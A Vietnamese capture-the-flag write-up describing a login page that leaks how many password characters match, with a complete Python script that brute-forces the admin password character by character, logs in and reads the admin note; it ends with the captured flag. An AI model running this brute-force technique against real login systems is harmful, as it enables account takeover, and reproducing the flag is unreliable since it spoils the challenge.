

# Write Up

## Thử input



Sau khi tôi thử nhập input bừa từ a-zA-z0-9 thì sẽ thấy nó ghi ra số ký tự đúng

Vậy nên ý tưởng sẽ là brute-force nếu đúng thì nhảy sang vị trí tiếp theo

---

## Script

```python
import re, string, requests
from urllib.parse import urljoin
from html import unescape
from time import sleep

BASE = "http://52.59.124.14:5015/"     # <<< ĐỔI thành host bài CTF
LOGIN = urljoin(BASE, "login.php")
INDEX = urljoin(BASE, "index.php")
DASH  = urljoin(BASE, "dashboard.php")

USERNAME = "admin"

# Prefix
START_PREFIX = ""

# Toàn bộ ASCII in được (bao phủ nhiều khả năng hơn)
CHARSET = "".join(chr(i) for i in range(32, 127))

flash_re = re.compile(r"got\s+(\d+)\s+characters\s+correct", re.I)

def post_and_get_correct(sess: requests.Session, pw: str):
    """Đăng nhập thử và trả về (correct:int|None, html:str).
       correct=None nghĩa là KHÔNG thấy flash 'got N correct' (có thể đúng hẳn)."""
    r = sess.post(LOGIN, data={"username": USERNAME, "password": pw}, allow_redirects=True)
    m = flash_re.search(r.text)
    return (int(m.group(1)) if m else None), r.text

def is_logged_in(sess: requests.Session) -> bool:
    """Kiểm tra bằng cách truy cập dashboard mà KHÔNG follow redirect."""
    r = sess.get(DASH, allow_redirects=False)
    return r.status_code == 200 and ("textarea" in r.text or "Logged in as" in r.text)

def read_admin_note(sess: requests.Session):
    r = sess.get(DASH)
    m = re.search(r'<textarea[^>]*name="note"[^>]*>(.*?)</textarea>', r.text, re.S|re.I)
    if m:
        print("\n[Admin note] =>", unescape(m.group(1)).strip())
    else:
        print("[!] Không trích xuất được note từ dashboard")

def recover_password():
    sess = requests.Session()
    prefix = START_PREFIX
    print(f"[*] Starting with prefix: {prefix!r} (len={len(prefix)})")

    # Nếu prefix đã đúng đến đây, confirm baseline 'correct'
    c0, _ = post_and_get_correct(sess, prefix)
    if c0 is not None:
        print(f"[*] Server reports {c0} correct for current prefix.")
    else:
        # Có thể prefix đã là full password
        if is_logged_in(sess):
            print("[+] Prefix already logs in. Full password:", prefix)
            return prefix
        # nếu không, tiếp tục brute-force

    while True:
        advanced = False
        want_pos = len(prefix) + 1

        for ch in CHARSET:
            attempt = prefix + ch
            corr, _ = post_and_get_correct(sess, attempt)
            # Debug nhẹ cho mỗi 10 ký tự trong bảng mã
            # print(f"try {attempt!r}: corr={corr}")

            if corr is not None and corr == want_pos:
                prefix += ch
                print(f"[+] Found char {want_pos}: {ch!r} -> {prefix!r}")
                advanced = True
                break

            # Nếu không có flash => có thể đăng nhập thành công (chỉ kiểm khi đã rất sát)
            if corr is None and len(attempt) >= 1:
                if is_logged_in(sess):
                    print("[+] Logged in while trying", attempt)
                    return attempt  # attempt chính là full password
                # nếu không logged in, coi như thử sai -> tiếp tục

            # Nếu server có rate limit nhẹ
            # sleep(0.02)

        if advanced:
            continue

        # Không ký tự nào tăng 'correct' -> có thể đã hết mật khẩu
        # Thử đăng nhập bằng đúng prefix hiện tại
        corr_now, _ = post_and_get_correct(sess, prefix)
        if corr_now is None and is_logged_in(sess):
            print("[+] Full password recovered:", prefix)
            return prefix

        # Nếu đến đây vẫn chưa xong, nhiều khả năng mật khẩu chứa ký tự ngoài CHARSET
        raise RuntimeError(
            "Không tăng được prefix ở vị trí %d. Hãy mở rộng CHARSET (ví dụ thêm ký tự Unicode) hoặc kiểm tra URL/đường dẫn."
            % (len(prefix) + 1)
        )

if __name__ == "__main__":
    pwd = recover_password()
    print("[*] Trying login with recovered password...")
    s = requests.Session()
    corr, _ = post_and_get_correct(s, pwd)
    if corr is None and is_logged_in(s):
        print("[+] Logged in with:", pwd)
        read_admin_note(s)
    else:
        print("[!] Login failed unexpectedly. Kiểm tra BASE/paths/CHARSET.")
```

---

## Flag

Flag: ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}